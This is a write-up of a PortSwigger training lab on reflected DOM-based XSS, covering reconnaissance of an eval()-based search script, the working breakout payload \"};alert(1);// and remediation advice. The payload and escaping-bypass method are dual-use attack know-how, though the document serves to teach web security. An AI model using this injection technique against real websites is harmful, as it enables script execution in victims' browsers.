

## Metadata

- **Difficulty:** Practitioner
- **Category:** Cross-site Scripting (XSS) - DOM-based
- **Lab URL:** [Lab: Reflected DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected)
- **Date Solved:** 21/7/2026
## Vulnerability Summary

The app contains a reflected DOM-based XSS vulnerability in the search functionality. User supplied input in the search bar is echoed in the response, which then is processed by an insecure script, granting us the sink to execute `JavaScript`.
## Reconnaissance

- Entering a random string like `aaa` into the search bar produces this request: `GET /?search=aaa`. In the response, the script `searchResults.js` is used to process our input, calling the `search()` function with the parameter `search-results` as the path.
- The script `searchResults.js`, more specifically the invoked `search()` function can be accessed on the source of the search result page. It reads:
```js
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();
```
As we can see, our input from the search function is processed using the `eval()` function, which can be used to execute `JavaScript` code. This is our sink.
- We need to find out how our data is actually reflected. Along with the response to the string `aaa`, we can also see that response of the `search()` function. It reads:
```json
{
    "results": [],
    "searchTerm": "aaa"
}
```
The server reflects user input from the search function into a `JSON` response.
-  Try submitting a double quote (`"`) results in the response:
```json
{
    "results": [],
    "searchTerm": "\""
}
```
The server escapes it with a backslash (`\`).
- Try submitting a backslash (`\`) reveals that the server does *not* escape backslashes:
```json
{
    "results": [],
    "searchTerm": "\"}
```
- We can also break out of the `searchResultsObj` itself with `\"}`:
```json
{
    "results": [],
    "searchTerm": "\\"
}
"}
```
## Exploitation Steps

1. Input `\"};alert(1);//` and search. 
2.  The `alert()` function should be triggered, and lab is marked as solved.

## Payload Used

`\"};alert(1);//`
With this payload, when passed to `eval()`, the execution context becomes:
```js
eval('var searchResultsObj = {"searchTerm":"\\"};alert(1);//"}');
```
- `var searchResultsObj = {"searchTerm":"\\"}` is parsed as a complete, valid statement assigning an object to the variable.
- The semicolon `;` terminates that statement.
- `alert(1);` is parsed and executed as a standalone statement.
- `//` comments out the trailing `"}`, preventing a syntax error at the end of the `eval()` function.
## Root Cause

1. The application fails to properly serialize `JSON`. It escapes double quotes but does not do so with backslashes.
2. The dangerous, insecure use of the `eval()` function to process user supplied data, allowing `JavaScript` code to be executed.
## Remediation

- Replace `eval()` with `JSON.parse()`. It strictly parses data as `JSON` and will not execute `JavaScript`.
- Implement a secure, standard JSON serialization library to construct responses Guarantees that all control characters are correctly escaped.